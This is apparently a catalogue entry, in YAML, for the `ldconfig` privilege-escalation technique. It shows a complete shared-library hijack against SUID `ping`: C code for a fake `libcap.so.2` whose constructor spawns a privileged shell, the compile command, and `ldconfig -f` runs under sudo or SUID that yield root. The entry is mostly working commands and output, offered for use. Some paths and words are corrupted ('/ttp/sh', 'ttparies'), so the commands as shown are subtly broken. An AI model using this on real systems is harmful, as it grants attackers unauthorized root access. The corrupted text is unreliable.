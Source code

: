 ```yaml
---
description: |
  Follows a minimal example of how to use the described technique (details may change across different distributions).

  Run the code associated with the technique.

  Identify a target SUID executable, for example the `libcap` library of `ping`:

  ```
  $ ldd /ttp/ping | grep libcap
        libcap.so.2 => /tmp/tmp.9qfoUyKaGu/libcap.so.2 (0x00007fc7e9797000)
  ```

  Create a fake library that spawns a shell at bootstrap:

  ```
  echo '#include <unistd.h>

  __attribute__((constructor))
  static void init() {
      execl("/ttp/sh", "/ttp/sh", "-p", NULL);
  }
  ' >"$TF/lib.c"
  ```

  Compile it with:

  ```
  gcc -fPIC -shared "$TF/lib.c" -o "$TF/libcap.so.2"
  ```

  Run `ldconfig` again as described below then just run `ping` to obtain a root shell:

  ```
  $ ping
  # id
  uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
  ```
functions:
  sudo:
    - description: This allows to override one or more shared libraries. Beware though that it is easy to *break* target and other ttparies.
      code: |
        TF=$(mktemp -d)
        echo "$TF" > "$TF/conf"
        # move malicious libraries in $TF
        sudo ldconfig -f "$TF/conf"
  limited-suid:
    - description: This allows to override one or more shared libraries. Beware though that it is easy to *break* target and other ttparies.
      code: |
        TF=$(mktemp -d)
        echo "$TF" > "$TF/conf"
        # move malicious libraries in $TF
        ./ldconfig -f "$TF/conf"
---
```

